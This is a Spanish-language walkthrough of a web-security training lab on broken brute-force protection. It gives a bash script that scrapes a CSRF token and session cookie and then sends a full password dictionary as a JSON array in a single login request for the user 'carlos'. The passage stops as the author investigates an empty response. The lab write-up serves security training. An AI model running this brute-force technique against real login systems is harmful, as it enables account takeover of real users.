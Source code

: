 ## 6. Lab: Broken brute-force protection, multiple credentials per request

Cuando consultamos al login podemos ver, que este ya es un poco diferente por la manera en como envia los parametros post (formano JSON)

![test](img19.png)

Entonces, lo que hacemos en intentar enviar todas las claves del diccionario mediante un array en password con el siguiente codigo:

```bash
#!/bin/bash

URL='https://ac7d1fc61e0921f0804371d000d70007.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
USER="carlos"

PASSS=`cat password.txt | tr '\n' ':' | sed s/':'/'","'/g`
DATA='{"csrf":"'$CSRF'","username":"'$USER'","password":["'$PASSS'"]}'

curl $URL -d $DATA -b $COOKIE
```

Lo curioso es que no recibimos ningun output, lo cual parece ser muy misterioso. Intentaremos dividir en 2 partes el string para de esa manera verificar si esto ocurre cuando enviamos muchos argumentos o algo esta ocurriendo por detrás que nos puede dar una pista de que hacer.
